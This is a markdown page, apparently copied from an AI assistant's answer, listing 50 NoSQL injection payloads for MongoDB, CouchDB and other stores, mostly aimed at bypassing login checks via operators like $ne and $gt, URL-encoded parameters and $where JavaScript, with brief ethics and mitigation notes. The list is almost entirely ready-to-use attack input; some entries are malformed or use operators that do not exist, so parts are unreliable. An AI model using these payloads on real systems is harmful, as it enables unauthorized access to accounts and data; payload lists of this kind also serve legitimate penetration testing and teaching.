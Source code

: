```yaml
---
title: "NoSQL injection payload"
tags:
  - NoSQL_injection
---
```


NoSQL injection is a technique used to exploit vulnerabilities in NoSQL databases by injecting malicious code into queries, similar to SQL injection but tailored to NoSQL query syntax like MongoDB, Cassandra, or CouchDB. Below is a list of 50 example payloads that could be used to test for NoSQL injection vulnerabilities. **Warning**: These payloads are for educational and testing purposes only, in controlled environments with explicit permission. Unauthorized use is illegal and unethical.

**Note**: The payloads are generalized and may need adaptation depending on the NoSQL database (e.g., MongoDB, CouchDB) and the application's query structure. Always test responsibly in a legal, authorized environment.

### MongoDB-Specific NoSQL Injection Payloads
MongoDB often uses JSON-like query syntax, so payloads target operators like `$ne`, `$eq`, `$gt`, `$regex`, etc.

1. `{"username": {"$ne": null}, "password": {"$ne": null}}` - Bypasses authentication by checking for non-null username/password.
2. `{"username": "admin", "password": {"$gt": ""}}` - Attempts to match any password greater than an empty string.
3. `{"username": {"$eq": "admin"}, "password": {"$exists": true}}` - Checks if the username is "admin" and password exists.
4. `{"$or": [{"username": "admin"}, {"password": "anything"}]}` - Uses `$or` to bypass authentication logic.
5. `{"username": {"$in": ["admin", "user"]}, "password": {"$ne": "wrong"}}` - Tests multiple usernames with a not-equal condition.
6. `{"username": {"$regex": ".*admin.*"}, "password": {"$ne": null}}` - Uses regex to match usernames containing "admin".
7. `{"username": {"$eq": "admin"}, "password": {"$type": 2}}` - Targets string-type passwords.
8. `{"username": {"$gt": ""}, "password": {"$gt": ""}}` - Matches any non-empty username and password.
9. `{"$where": "this.username == 'admin'"}` - Uses JavaScript-based `$where` clause to bypass checks.
10. `{"username": {"$ne": ""}, "password": {"$regex": "^.*$"}}` - Matches any non-empty username and any password.
11. `{"username": {"$eq": "admin"}, "password": {"$nin": ["invalid"]}}` - Excludes specific invalid passwords.
12. `{"username": "admin';return true;//", "password": "anything"}` - JavaScript injection for `$where` queries.
13. `{"username": {"$regex": "^a"}, "password": {"$exists": true}}` - Matches usernames starting with "a".
14. `{"$and": [{"username": "admin"}, {"password": {"$ne": "wrong"}}]}` - Combines conditions to bypass logic.
15. `{"username": {"$eq": "admin"}, "password": {"$size": 0}}` - Targets empty password arrays.
16. `{"username": {"$not": {"$eq": "guest"}}, "password": {"$ne": null}}` - Excludes "guest" usernames.
17. `{"username": {"$all": ["admin"]}, "password": {"$gt": ""}}` - Matches specific username arrays.
18. `{"username": {"$regex": "admin", "$options": "i"}, "password": {"$ne": null}}` - Case-insensitive username match.
19. `{"username": {"$elemMatch": {"$eq": "admin"}}, "password": {"$ne": ""}}` - Targets array elements.
20. `{"$where": "this.password.length > 0"}` - JavaScript to check non-empty passwords.

### General NoSQL Injection Payloads
These payloads target common NoSQL databases or generic query structures.

21. `username=admin&password[$ne]=null` - URL-encoded payload for bypassing authentication.
22. `username=admin&password[$gt]=` - Empty `$gt` to match any password.
23. `username[$eq]=admin&password[$exists]=true` - Checks for existing passwords.
24. `username[$regex]=.*admin.*&password[$ne]=null` - Regex-based username match.
25. `username=admin&password[$in][]=valid&password[$in][]=invalid` - Tests multiple password values.
26. `username[$ne]=guest&password[$ne]=null` - Excludes guest users.
27. `username[$or][][username]=admin&username[$or][][password]=anything` - OR condition in URL.
28. `username[$eq]=admin&password[$type]=string` - Targets string-type passwords.
29. `username=admin&password[$regex]=^.*$` - Matches any password.
30. `username[$not][$eq]=user&password[$ne]=null` - Excludes specific usernames.

### JavaScript Injection Payloads
For databases supporting JavaScript (e.g., MongoDB `$where`).

31. `{"$where": "return true"}` - Always-true condition to bypass authentication.
32. `{"$where": "this.username == 'admin' && this.password != 'wrong'"}` - Specific username/password check.
33. `{"$where": "sleep(1000);return true"}` - Tests for JavaScript execution delay.
34. `{"$where": "this.password == this.password"}` - Trivial true condition.
35. `{"$where": "this.username.length > 0"}` - Matches non-empty usernames.
36. `username=admin';sleep(1000);//&password=anything` - JavaScript delay injection.
37. `{"$where": "this.username.match(/admin/)}` - Regex-based username match in JavaScript.
38. `{"$where": "this.password == 'admin' || true"}` - Forces true with OR.
39. `{"$where": "function(){return true;}"}` - Anonymous function to return true.
40. `{"$where": "this.username == 'admin' && 1==1"}` - Adds trivial true condition.

### CouchDB/Cassandra/Other NoSQL Payloads
These target other NoSQL databases with different query structures.

41. `{"key": {"$eq": "admin"}, "value": {"$ne": null}}` - CouchDB-style key-value injection.
42. `{"selector": {"username": "admin", "password": {"$gt": ""}}}` - CouchDB selector query.
43. `{"selector": {"$or": [{"username": "admin"}, {"password": "test"}]}}` - CouchDB OR condition.
44. `username[$eq]=admin&password[$gt]=0` - Numeric comparison for Cassandra.
45. `{"query": "username = 'admin' OR 1=1"}` - Generic OR injection.
46. `{"filter": {"username": {"$contains": "admin"}}}` - Filter-based injection.
47. `{"username": {"$eq": "admin"}, "password": {"$isNotNull": true}}` - Non-null check.
48. `{"query": {"username": {"$like": "%admin%"}}}` - LIKE-style pattern matching.
49. `{"username": {"$in": ["admin", "root"]}, "password": {"$exists": true}}` - Multi-user check.
50. `{"selector": {"username": {"$regex": ".*"}, "password": {"$ne": null}}}` - Broad regex match.

### Notes
- **Context-Specific**: Payloads must be tailored to the database (e.g., MongoDB uses `$ne`, CouchDB uses `selector`). Test the database type first.
- **Encoding**: For web applications, payloads may need URL or JSON encoding (e.g., `[$ne]` becomes `%5B%24ne%5D`).
- **Ethical Use**: Only test systems you own or have explicit permission to test. Unauthorized testing is illegal.
- **Mitigation**: Developers should sanitize inputs, use parameterized queries, and avoid exposing query operators to user input.

If you need specific payloads for a particular NoSQL database or want guidance on testing safely, let me know!
